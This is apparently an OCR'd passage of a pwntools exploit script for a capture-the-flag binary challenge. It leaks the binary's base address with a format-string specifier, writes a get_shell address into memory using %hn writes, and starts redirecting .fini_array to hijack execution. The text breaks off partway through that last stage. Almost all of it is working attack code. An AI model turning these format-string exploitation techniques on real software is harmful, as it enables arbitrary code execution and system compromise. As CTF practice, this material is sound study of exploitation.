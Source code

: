 ```
gdb.attach(p, gdbscript = '''
b*main+136
c
''')
           
input()
####################################
### Stage 1: leak binary address ###
####################################

p.sendlineafter(b'something: ', b'%23$p' )
p.recvuntil(b'You said: ')
exe_leak = int(p.recvline()[:-1], 16)
exe.address = exe_leak - exe.sym['main']
log.info('exe leak: ' + hex(exe_leak))
log.info('exe base: ' + hex(exe.address))
        

########################################
### Stage 2: write get_shell address ###
########################################

# 0x40f0 = offset rw_addr

getshell = exe.sym['get_shell']
rw_addr = exe.address + 0x40f0

package = {
    (getshell >> 0) & 0xffff : rw_addr,
    (getshell >> 16) & 0xffff : rw_addr + 2,
    (getshell >> 32) & 0xffff : rw_addr + 4,
}

order = sorted(package) # sắp xếp lại theo thứ tự từ bé đến lớn
log.info('get shell: ' + hex(getshell))
print(package)
print(order)

payload = f'%{order[0]}c%13$hn'.encode()
payload += f'%{order[1] - order[0]}c%14$hn'.encode()
payload += f'%{order[2] - order[1]}c%15$hn'.encode()
payload = payload.ljust(64 - 24, b'P')
payload += flat(
    package[order[0]],
    package[order[1]],
    package[order[2]],

)

p.sendlineafter(b'> ', b'n' )
p.sendlineafter(b'something: ', payload )


###################################################
### Stage 3: change base address of .fini_array ###
###################################################

# 0x0055698e417000 + 0x3d90 = 0x000055698e41ad90
# 0x0055698e417000 + 0x3d90 + ? = 0x000055698e41b0f0
# ? = 0x360 = offset stack

p.sendlineafter(b'> ', b'n' )

```